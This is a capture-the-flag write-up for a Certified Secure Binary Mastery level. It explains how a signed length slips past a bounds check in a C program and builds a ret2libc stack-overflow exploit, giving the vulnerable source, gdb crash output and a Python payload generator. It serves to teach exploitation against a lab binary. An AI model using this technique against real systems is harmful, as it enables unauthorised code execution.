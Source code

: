 ```yaml
---
title:  "[CTF] Binary Master Lieutenant - 2"
categories: ctf binary
---
```


![Logo](/assets/images/belts-purple.png)


In this post we'll continue with the second level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**.
Another buffer overflow, similar mitigatiopn techniques as we've seen in the previous level (non-executable stack), 
but this time we have another flaw, a little more subtle: _integer signedness error_.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html)
* [Binary Master: Ensign - Level 2](https://livz.github.io/2016/01/14/binary-master-ensign-2.html)
* [Binary Master: Ensign - Level 3](https://livz.github.io/2016/01/21/binary-master-ensign-3.html)
* [Binary Master: Ensign - Level 4](https://livz.github.io/2016/01/28/binary-master-ensign-4.html)
* [Binary Master: Ensign - Level 5](https://livz.github.io/2016/02/09/binary-master-ensign-5.html)
* [Binary Master: Lieutenant - Level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html)

## 0 - Discovery
Let's connect to the server and check the binary we're dealing with:
```
$ ssh level2@hacking.certifiedsecure.com -p 8267
level2@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

0 packages can be updated.
0 updates are security updates.

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                    __  ___          __              
  / _ )(_)___ ___ _______ __/  |/  /___ ____ / /____ ______ __
 / _  / // _ | _ `/ __/ // / /|_/ // _ `(_-</ __/ -_) __/ // /
/____/_//_//_|_,_/_/  \_, /_/  /_/ \_,_/___/\__/\__/_/  \_, / 
                     /___/                             /___/  

             ___           __                   __ 
            / (_)___ __ __/ /____ ___ ___ ____ / /_
           / / // -_) // / __/ -_) _ | _ `/ _ | __/
          /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/ 
                                                   

```

Let's see what mitigation techniques we have now using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   level2
```

There is no stack canary and the stack is **not** executable. As we've seen in the previous level, [ASLR is disabled](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) system-wise for this set of challenges.

## 1 - Vulnerability

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

void head(int len, char *filename) {
	char buf[256];
	
	if (len > 255) {                         [1]
		printf("You are insane!\n");
		return;
	}

	int fp = open(filename, O_RDONLY);

	if (fp == 0) {                           [2]
		printf("Computer says no\n");
		return;
	}

	buf[read(fp, buf, len)] = 0;	         [3]
	close(fp);

	printf("%s\n", buf);
}

int main(int argc, char **argv) {
	if (argc < 2) {
		printf("Usage: %s <size>\n", argv[0]);
		return -1;
	}

	head(atoi(argv[1]), argv[2]);
	
	return 0;
}
```

First let's understand what is the purpose of this program and how it works. In this case it's pretty straight forward:
* Its first parameter represents a number of lines to be read from the filename specified in the second command line parameter.
* A first sanity check is implemented at **[1]**: if the length is greater than 255 bytes, the program will terminate.
* A second check at **[2]** after the _open_ call probably intends to terminate the program if file cannot be opened successfully.
* Finally,the _read_ call at **[3]** copies maximum _len_ characters into the buffer _buf_, whose size is 256 bytes, thus avoiding the overflow.

Now let's see if we can break it:
* Let's notice that the check at **[2]** is actually not effective because, according to its [man page](http://man7.org/linux/man-pages/man2/open.2.html), _open_ will return -1 in case of error, not 0. This means that the program will have unpredictable output for non-existent files.
* The check at **[1]** poses, however, a more serious risk: as we can see from the definition of the function, _len_ is actually a signed integer. But [read](https://linux.die.net/man/3/read) expects instead a **size_t** parameter. This means that passing any negative value will successfulyl bypass the check, overflow the buffer and everything beyond, including the return address from function _head_.

Although one might expect that a GCC compiler error would be generated in situations like this, it is not actually the case. Moreover, even eanbling _all warnings_ and _extra warnings_ doesn't produce any relevant message. These flags are actually misleading, since it is not possible (nor desirable!) to show _ALL_ compilation errors supported by GCC. See [here](https://stackoverflow.com/questions/11714827/how-to-turn-on-literally-all-of-gccs-warnings) why. That's why I was saying it is slighly more difficult to spot this class of vulnerabilities in practice. 

```bash
$ gcc -m32 -fstack-protector level2.c -o level2       
$ gcc -Wall -Wextra -m32 -fstack-protector level2.c -o level2
$ 
```

The only way to get a warning for this kind of behaviour is to manually enable implicit sign conversions erros, using the **-Wsign-conversion** flag.

```
-Wsign-conversion
    Warn for implicit conversions that may change the sign of an integer value, like assigning a signed integer expression to an unsigned integer variable. An explicit cast silences the warning. In C, this option is enabled also by -Wconversion. 
```

```bash
$ gcc -Wsign-conversion -m32 -fstack-protector level2.c -o level2
level2.c: In function ‘head’:
level2.c:24:20: warning: conversion to ‘size_t {aka unsigned int}’ from ‘int’ may change the sign of the result [-Wsign-conversion]
  buf[read(fp, buf, len)] = 0; 
                    ^
```		    

## 2 - Exploit 

Given the previous finding, the exploitation is simple and very similar with [level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html). First we'll see what we need to control the EIP and then we'll introduce a payload as well.

### Controlling the execution flow
Although we know that **buf** is 256 bytes in size, we need to see the stack layout of the function **head** in order to understand exactly how many bytes we need to overwrite to get to the saved return address on the stack.

![head stack](/assets/images/bm7-0.png)

So we need 256 + 12 + 4 bytes of padding in the buffer before we'll reach the saved return address. Let's see first if we can reliably control the return address:

```bash
$ python -c 'print "A"*272 + "BBBB"' > input
$ gdb -q ./level2

gdb-peda$ run -1 input
```
We see below that the execution crashed at address **0x42424242** ("BBBB"). That's good. We can move on.

![Control EIP](/assets/images/bm7-1.png)

### Add ret2libc payload
In a very similar way with the previous level, we'll return from _head_ function to the _system_ function, and place its argument in an environment variable. All the unchanged details omitted for space. The format of our payload is:

```
| PADDING (272 bytes) | addr. of system() | addr of exit() | addr of arguments |
```

The python script below generates the payload according to this scheme:

```python
import struct                                                                                                      
from subprocess import call

system = 0xf7e65e70     # Address of system() function
exit = 0xf7e58f50       # Address of exit() function
egg = 0xffffd928-6      # Address of environment variable (/home/level2/victory)

payload = "A" * (256 + 12 + 4) + struct.pack("<I", system) + struct.pack("<I", exit) + struct.pack("<I", egg)

open("/tmp/input", "wb").write(payload)
```

## 3 - Profit

```
$ python /tmp/gen.py > /tmp/input
$ /levels/level2 -1 /tmp/input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp^�P��"��
   ___  _                      __  ___         __  
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __   
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   

Subject: Victory!

Congrats, you have solved level2. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level2 @ binary mastery lieutenant)
   * the exploit 
   
You can now start with level3. If you want, you can log in
as level3 with password     [REDACTED]
```

That's it for now. It the [next level](https://livz.github.io/2016/03/02/binary-master-lieutenant-3.html) we'll look at a new calss of issues - _command injection vulnerabilities_.
